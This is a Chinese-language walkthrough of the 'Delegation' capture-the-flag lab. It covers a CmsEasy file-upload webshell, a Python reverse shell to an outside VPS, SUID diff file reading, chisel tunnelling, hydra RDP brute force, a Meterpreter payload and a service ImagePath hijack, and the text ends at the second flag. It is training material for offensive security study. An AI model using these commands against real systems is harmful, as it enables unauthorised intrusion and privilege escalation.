







# Delegation

Delegation 是一套难度为中等的靶场环境，完成该挑战可以帮助玩家了解内网渗透中的代理转发、内网扫描、信息收集、特权提升以及横向移动技术方法，加强对域环境核心认证机制的理解，以及掌握域环境渗透中一些有趣的技术要点。该靶场共有 4 个 flag，分布于不同的靶机。

<!-- truncate -->

:::info

Tags

- Brute Force - RDP 密码爆破
- Privilege Elevation - Linux suid 特权文件
- Privilege Elevation - Windows 服务配置缺陷提权
- Kerberos - Kerberos TGT 票据利用
- 域渗透 - DCSync & RPC 强制认证

:::

```plaintext title="入口点"
39.99.241.120
```

## 入口点探测

使用 `fscan` 对入口点靶机进行扫描

```bash
start infoscan
39.99.241.120:80 open
39.99.241.120:21 open
39.99.241.120:22 open
39.99.241.120:3306 open
[*] alive ports len is: 4
start vulscan
[*] WebTitle http://39.99.241.120      code:200 len:68108  title: 中文网页标题
```

## 入口点 CmsEasy 任意文件上传构建 Webshell

进行目录扫描，发现存在有 `/admin/` 后台登陆界面，经过手动尝试，确认凭据为弱密码 `admin:123456`



根据页面底部的 `Powered by CmsEasy` 字段，搜索可能的漏洞信息，结合可以登陆后台，可以确认要利用的漏洞为后台任意文件上传

参考：[CmsEasy_7.7.5_20211012 存在任意文件写入和任意文件读取漏洞 | jdr](https://jdr2021.github.io/2021/10/14/CmsEasy_7.7.5_20211012%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5%E5%92%8C%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E/#%E5%AE%89%E8%A3%85%E5%8C%85%E4%B8%8B%E8%BD%BD)

```plaintext
POST /index.php?case=template&act=save&admin_dir=admin&site=default HTTP/1.1
Host: 39.99.237.127
Accept-Language: zh-CN
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=i6o38uig1s56o0j0u8diitem0h; login_username=admin; login_password=a14cdfc627cef32c707a7988e70c1313
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 69

sid=#data_d_.._d_.._d_.._d_1.php&slen=693&scontent=<?php phpinfo();?>
```



访问 `http://39.99.237.127/1.php` 页面，成功看到 phpinfo 界面，说明可以借此写入 webshell



## 入口点 反弹 shell + 权限维持

基于 webshell，反弹 shell 到 vps

```bash
root@jmt-projekt:~# nc -lvnp 9999
Listening on 0.0.0.0 9999
Connection received on 39.99.237.127 43980
whoami
www-data
python3 --version
Python 3.8.10
```

鉴于存在有 Python 环境，使用 python 的反弹 shell 进一步获取完成 shell 功能

```bash title="netcat listener"
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("139.*.*.*",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'
```

```bash title="pwncat-cs listener"
root@jmt-projekt:~# pwncat-cs -lp 8888
[08:25:49] Welcome to pwncat 🐈!                                                                                                                                                                 __main__.py:164
[08:26:19] received connection from 39.99.237.127:39390                                                                                                                                               bind.py:84
[08:26:21] 0.0.0.0:8888: upgrading from /usr/bin/dash to /usr/bin/bash                                                                                                                            manager.py:957
[08:26:22] 39.99.237.127:39390: registered new host w/ db                                                                                                                                         manager.py:957
(local) pwncat$ back
(remote) www-data@localhost:/var/www/html$ whoami
www-data
```

## 入口点 Suid 提权

对 suid 特权文件进行扫描

```bash
(remote) www-data@localhost:/$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/stapbpf
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/staprun
/usr/bin/at
/usr/bin/diff
/usr/bin/fusermount
/usr/bin/sudo
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/passwd
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
```

发现 `/usr/bin/diff` 结合 suid 可以实现任意文件读取

同时发现 flag 文件

```bash
(remote) www-data@localhost:/$ ls -lh /home/flag/
total 4.0K
-r-------- 1 root root 798 Jul 24 08:14 flag01.txt
```

就可以直接借助 `/usr/bin/diff --line-format=%L /dev/null /home/flag/flag01.txt` 来对 `flag01.txt` 进行读取

## flag - 01

```plaintext
  ____  U _____ u  _     U _____ u   ____      _       _____             U  ___ u  _   _
 |  _"\ \| ___"|/ |"|    \| ___"|/U /"___|uU  /"\  u  |_ "_|     ___     \/"_ \/ | \ |"|
/| | | | |  _|"U | | u   |  _|"  \| |  _ / \/ _ \/     | |      |_"_|    | | | |<|  \| |>
U| |_| |\| |___  \| |/__  | |___   | |_| |  / ___ \    /| |\      | | .-,_| |_| |U| |\  |u
 |____/ u|_____|  |_____| |_____|   \____| /_/   \_\  u |_|U    U/| |\u\_)-\___/  |_| \_|
  |||_   <<>>  //  \\  <<   >>   _)(|_   \\    >>  _// \\_.-,_|___|_,-.  \\    ||   \\,-.
 (__)_) (__) (__)(_")("_)(__) (__) (__)__) (__)  (__)(__) (__)\_)-''-(_/  (__)   (_")  (_/

flag01: flag{54bbe683-5e1d-4e18-96c3-724db360b28b}

Great job!!!!!!

Here is the hint: WIN19\Adrian

I'll do whatever I can to rock you...
```

## 入口点 建立中转枢纽

借助 `pwncat-cs` 的文件上传能力，上传 `chisel_1.9.1_linux_amd64` 之后，建立代理隧道

```bash title="vps 139.*.*.*"
root@jmt-projekt:~# ./chisel_1.9.1_linux_amd64 server -p 1337 --reverse
2024/07/24 08:45:56 server: Reverse tunnelling enabled
2024/07/24 08:45:56 server: Fingerprint 2YUi1QXviZmFSEGJIEb3uN4KxK+uVWmTtTH0LIaylDo=
2024/07/24 08:45:56 server: Listening on http://0.0.0.0:1337
```

```bash title="入口点 39.99.241.120"
(remote) www-data@localhost:/tmp$ ./chisel_1.9.1_linux_amd64 client 139.*.*.*:1337 R:0.0.0.0:10001:socks &
[1] 3352
2024/07/24 08:46:44 client: Connecting to ws://139.*.*.*:1337
2024/07/24 08:46:44 client: Connected (Latency 43.547056ms)
```

成功建立连接

```bash title="vps 139.*.*.*"
2024/07/24 08:46:44 server: session#1: tun: proxy#R:10001=>socks: Listening
```

## 入口点 内网信息搜集

上传 `fscan` 进行内网扫描

```bash
(remote) www-data@localhost:/tmp$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.22.4.36  netmask 255.255.0.0  broadcast 172.22.255.255
        inet6 fe80::216:3eff:fe1b:be8a  prefixlen 64  scopeid 0x20<link>
        ether 00:16:3e:1b:be:8a  txqueuelen 1000  (Ethernet)
        RX packets 89638  bytes 124109416 (124.1 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 21827  bytes 7117035 (7.1 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 678  bytes 59169 (59.1 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 678  bytes 59169 (59.1 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

(remote) www-data@localhost:/tmp$ ./fscan_amd64.1 -h 172.22.4.36/24
......
start ping
(icmp) Target 172.22.4.7      is alive
(icmp) Target 172.22.4.19     is alive
(icmp) Target 172.22.4.36     is alive
(icmp) Target 172.22.4.45     is alive
[*] Icmp alive hosts len is: 4
172.22.4.45:445 open
172.22.4.19:445 open
172.22.4.7:445 open
172.22.4.45:139 open
172.22.4.19:139 open
172.22.4.7:139 open
172.22.4.45:135 open
172.22.4.7:135 open
172.22.4.19:135 open
172.22.4.45:80 open
172.22.4.36:80 open
172.22.4.7:88 open
172.22.4.36:3306 open
172.22.4.36:22 open
172.22.4.36:21 open
[*] alive ports len is: 15
start vulscan
[*] NetInfo:
[*]172.22.4.19
   [->]FILESERVER
   [->]172.22.4.19
[*] NetInfo:
[*]172.22.4.7
   [->]DC01
   [->]172.22.4.7
[*] NetBios: 172.22.4.7      [+]DC DC01.xiaorang.lab             Windows Server 2016 Datacenter 14393
[*] NetBios: 172.22.4.45     XIAORANG\WIN19
[*] NetInfo:
[*]172.22.4.45
   [->]WIN19
   [->]172.22.4.45
[*] 172.22.4.7  (Windows Server 2016 Datacenter 14393)
[*] NetBios: 172.22.4.19     FILESERVER.xiaorang.lab             Windows Server 2016 Standard 14393
[*] WebTitle: http://172.22.4.36        code:200 len:68100  title: 中文网页标题
[*] WebTitle: http://172.22.4.45        code:200 len:703    title:IIS Windows Server
```

## 172.22.4.45 XIAORANG\WIN19 RDP 密码爆破

根据 `flag - 02` 中提供的信息

```plaintext
Here is the hint: WIN19\Adrian

I'll do whatever I can to rock you...
```

可以确定用户为 `WIN19\Adrian` 并且密码字典为 `rockyou.txt`

尝试进行 RDP 爆破

```bash
┌──(randark ㉿ kali)-[~]
└─$ proxychains4 -q hydra -l "Adrian" -P /usr/share/wordlists/rockyou.txt rdp://172.22.4.45 -vV
[ATTEMPT] target 172.22.4.45 - login "Adrian" - pass "babygirl1" - 219 of 14344399 [child 3] (0/0)
[ERROR] freerdp: The password has expired and must be changed. (0x0002000e)
[RE-ATTEMPT] target 172.22.4.45 - login "Adrian" - pass "babygirl1" - 223 of 14344399 [child 3] (0/0)
[ERROR] freerdp: The password has expired and must be changed. (0x0002000e)
```

得到一个密码过期的凭据 `Adrian:babygirl1`

尝试进行连接



尝试使用 `rdesktop` 进行连接

```bash
┌──(randark ㉿ kali)-[~]
└─$ proxychains4 rdesktop 172.22.4.45
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  139.*.*.*:10001  ...  172.22.4.45:3389  ...  OK

ATTENTION! The server uses and invalid security certificate which can not be trusted for
the following identified reasons(s);

 1. Certificate issuer is not trusted by this system.

     Issuer: CN=WIN19.xiaorang.lab


Review the following certificate info before you trust it to be added as an exception.
If you do not trust the certificate the connection atempt will be aborted:

    Subject: CN=WIN19.xiaorang.lab
     Issuer: CN=WIN19.xiaorang.lab
 Valid From: Tue Jul 23 08:14:45 2024
         To: Wed Jan 22 08:14:45 2025

  Certificate fingerprints:

       sha1: a06ec2425bc2cc6bcda14219c29eeea9535a4e60
     sha256: b7edffe2d201fb98909e8463b077275ee0bfaaa3809851565cd3e25b421b2590


Do you trust this certificate (yes/no)? yes
Failed to initialize NLA, do you have correct Kerberos TGT initialized ?
[proxychains] Strict chain  ...  139.*.*.*:10001  ...  172.22.4.45:3389  ...  OK
Core(warning): Certificate received from server is NOT trusted by this system, an exception has been added by the user to trust this specific certificate.
Connection established using SSL.
```



修改密码为 `Adrian:admin123` 之后，即可成功登录



## 172.22.4.45 XIAORANG\WIN19 Windows 服务提权

在 `C:\Users\Adrian\Desktop\PrivescCheck` 桌面上，发现有 `PrivescCheck_WIN19.html` 文件，也就是 `PrivescCheck` 提权检测的报告

在其中发现了一条 High 级别的记录



```plaintext
Name              : gupdate
ImagePath         : "C:\Program Files (x86)\Google\Update\GoogleUpdate.exe" /svc
User              : LocalSystem
ModifiablePath    : HKLM\SYSTEM\CurrentControlSet\Services\gupdate
IdentityReference : BUILTIN\Users
Permissions       : WriteDAC, Notify, ReadControl, CreateLink, EnumerateSubKeys, WriteOwner, Delete, CreateSubKey, SetValue, QueryValue
Status            : Stopped
UserCanStart      : True
UserCanStop       : True
```

可以借助此运行 msf 生成的马

:::warning

内网靶机没有出网能力，所以需要提前设置好内网 -> 外网的端口转发

由于服务运行的文件在一段时间之后会自动停止，所以在建立 c2 连接之后，应及时进行进程迁移

:::

建立内网 -> 外网的端口转发

```bash title="入口点 172.22.4.36"
(remote) www-data@localhost:/tmp$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.22.4.36  netmask 255.255.0.0  broadcast 172.22.255.255
        inet6 fe80::216:3eff:fe1b:be8a  prefixlen 64  scopeid 0x20<link>
        ether 00:16:3e:1b:be:8a  txqueuelen 1000  (Ethernet)
        RX packets 166956  bytes 177580251 (177.5 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 79621  bytes 28563311 (28.5 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 15264  bytes 6538426 (6.5 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 15264  bytes 6538426 (6.5 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

(remote) www-data@localhost:/tmp$ ./chisel_1.9.1_linux_amd64 client 139.*.*.*:1337 7777:7777 &
[2] 3495
2024/07/24 09:23:48 client: Connecting to ws://139.*.*.*:1337
2024/07/24 09:23:48 client: tun: proxy#7777=>7777: Listening
2024/07/24 09:23:48 client: Connected (Latency 44.160355ms)
```

使用 `msfvenom` 生成载荷

```bash
┌──(randark ㉿ kali)-[~]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.22.4.36 LPORT=7777 -f exe -o exploit-172.22.4.36-7777.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: exploit-172.22.4.36-7777.exe
```

开启监听

```bash
root@jmt-projekt:~# msfconsole -q
This copy of metasploit-framework is more than two weeks old.
 Consider running 'msfupdate' to update to the latest version.
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 0.0.0.0
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > set LPORT 7777
LPORT => 7777
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 0.0.0.0:7777
```

将载荷投放到靶机之后，修改服务

```bash
PS C:\Users\Adrian> reg query HKLM\SYSTEM\CurrentControlSet\Services\gupdate

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\gupdate
    Type    REG_DWORD    0x10
    Start    REG_DWORD    0x2
    ErrorControl    REG_DWORD    0x1
    ImagePath    REG_EXPAND_SZ    "C:\Program Files (x86)\Google\Update\GoogleUpdate.exe" /svc
    DisplayName    REG_SZ    Google 更新服务 (gupdate)
    DependOnService    REG_MULTI_SZ    RPCSS
    WOW64    REG_DWORD    0x14c
    ObjectName    REG_SZ    LocalSystem
    Description    REG_SZ    请确保使用最新版的 Google 软件。如果停用或中断此服务，则您的 Google 软件就无法及时更新，这 意味着无法修复潜在的安全漏洞，同时某些功能也无法正常运行。如果没有任何 Google 软件使用此服务，则此服务会自行卸载。
    DelayedAutostart    REG_DWORD    0x1

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\gupdate\Security

PS C:\Users\Adrian> reg add HKLM\SYSTEM\CurrentControlSet\Services\gupdate /v ImagePath /t REG_EXPAND_SZ /d  C:\Users\Adrian\Desktop\exploit-172.22.4.36-7777.exe
值 ImagePath 已存在，要覆盖吗 (Yes/No)? yes
操作成功完成。
```

然后在 `cmd` 中启动服务

```bash
sc start gupdate
```

即可收到回连的 Meterpreter 会话

```bash
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 0.0.0.0:7777
[*] Sending stage (200774 bytes) to 127.0.0.1
[*] Meterpreter session 2 opened (127.0.0.1:7777 -> 127.0.0.1:52672) at 2024-07-24 09:31:38 +0800

meterpreter >
[*] 127.0.0.1 - Meterpreter session 2 closed.  Reason: Died
```

这里的 `Reason: Died` 是由于会话因服务停止而自动杀死，为了避免这种情况，可以在 Meterpreter 会话建立之时及时进行进程迁移

```bash
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 0.0.0.0:7777
[*] Sending stage (200774 bytes) to 127.0.0.1
[*] Meterpreter session 4 opened (127.0.0.1:7777 -> 127.0.0.1:42678) at 2024-07-24 09:36:24 +0800

meterpreter > ps

Process List
============

 PID   PPID  Name                          Arch  Session  User                          Path
 ---   ----  ----                          ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System                        x64   0
 60    564   svchost.exe                   x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 84    4     Registry                      x64   0
 164   564   svchost.exe                   x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 248   4     smss.exe                      x64   0
 288   564   svchost.exe                   x64   0
 352   344   csrss.exe                     x64   0
 428   344   wininit.exe                   x64   0
 444   420   csrss.exe                     x64   1
 ......
 5924  564   svchost.exe                   x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 6036  564   svchost.exe                   x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe

meterpreter > migrate 6036
[*] Migrating from 5768 to 6036...
[*] Migration completed successfully.

meterpreter > sysinfo
Computer        : WIN19
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : zh_CN
Domain          : XIAORANG
Logged On Users : 10
Meterpreter     : x64/windows
```

并且发现 `C:\Users\Administrator\flag\flag02.txt` 文件

## flag - 02

```plaintext
 ________  _______   ___       _______   ________  ________  _________  ___  ________  ________
|\   ___ \|\  ___ \ |\  \     |\  ___ \ |\   ____\|\   __  \|\___   ___\\  \|\   __  \|\   ___  \
\ \  \_|\ \ \   __/|\ \  \    \ \   __/|\ \  \___|\ \  \|\  \|___ \  \_\ \  \ \  \|\  \ \  \\ \  \
 \ \  \ \\ \ \  \_|/_\ \  \    \ \  \_|/_\ \  \  __\ \   __  \   \ \  \ \ \  \ \  \\\  \ \  \\ \  \
  \ \  \_\\ \ \  \_|\ \ \  \____\ \  \_|\ \ \  \|\  \ \  \ \  \   \ \  \ \ \  \ \  \\\  \ \  \\ \  \
   \ \_______\ \_______\ \_______\ \_______\ \_______\ \__\ \__\   \ \__\ \ \__\ \_______\ \__\\ \__\
    \|_______|\|_______|\|_______|\|_______|\|_______|\|__|\|__|    \|__|  \|__|\|_______|\|__| \|__|


